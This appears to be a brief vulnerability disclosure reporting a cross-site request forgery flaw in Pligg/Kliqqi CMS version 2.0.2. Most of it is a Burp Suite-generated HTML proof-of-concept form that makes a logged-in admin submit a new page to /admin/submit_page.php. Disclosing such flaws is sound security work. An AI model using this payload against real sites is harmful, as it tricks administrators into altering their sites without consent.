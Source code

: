
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/submit_page.php

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/submit_page.php" method="POST">
      <input type="hidden" name="page_title" value="cs" />
<input type="hidden" name="page_url" value="123" />
<input type="hidden" name="page_keywords" value="123" />
<input type="hidden" name="page_description" value="" />
<input type="hidden" name="page_content" value="" />
<input type="hidden" name="submit" value="Save+Page" />
<input type="hidden" name="process" value="new_page" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

